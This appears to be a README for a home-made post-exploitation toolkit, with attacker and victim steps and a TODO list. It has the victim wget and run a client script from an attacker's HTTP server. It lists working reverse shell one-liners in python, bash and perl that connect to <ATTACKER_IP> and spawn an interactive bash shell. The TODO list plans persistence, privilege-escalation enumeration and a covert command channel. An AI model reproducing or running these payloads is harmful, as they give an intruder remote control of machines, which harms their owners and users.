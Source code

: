# Assumptions
- python3 exists on the server

# Steps using HTTP web server
1. (on attacker): python3 http_server.py
2. (on victim): wget <ATTACKER_IP>:8000/victim_client_<ATTACKER_IP>.py
3. (on attacker): python3 listener.py -v <VICTIM_IP>
4. (on victim): python3 victim_client_<ATTACKER_IP>.py

# Steps using reverse shell one-liner
1. (on attacker): python3 listener.py -v <VICTIM_IP>
2. Reverse shell one-liners (on victim)
    - [python2]: python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    - [bash]: bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1
    - [perl]: perl -e 'use Socket;$i="<ATTACKER_IP>";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# TODO
- (Low) Create several implementations for looping reverse shells in case python isn't available
  - (Low) Implement "persisting" looping reverse shell install
- (Low) Implement menu with list of playbooks that can be run for enumeration, privesc, etc
    - (Low) Have menu items show if an error occured of if the playbook results are already available
    - (Low) Show details about found results and what steps to take next
    - menu['show']['network']['all'] = function
    - show enumerate
      [ ] 1. Check SUID binaries
    - use enumerate 1
    - show network
      [ ] 1. Local IPv4s
      [X] 2. Connected subnets
      [ ] 3. Reachable online hosts
    - show network 2
- (Low) Upload and run linpeas.sh, save locally. Make it as part of the menu of things to run.
- (Low) Some kind of client/server written on python which allows me to send commands to the victim via an encrypted channel and he just run code locally. Implement with as little dependencies as possible (will require at least python3). Since python3 is required, maybe this isn't a great idea. Might as well just send commands to the victim directly via pwntools.
- (Low) If long running commands aren't working, echo a magic string and run recvuntil that magic string is encountered
- (Low) Better logging with colors and stuff!
- (Low) When checking SUID files, compare against pre-built list of 'known' default install binaries. Also check creation dates for clues.
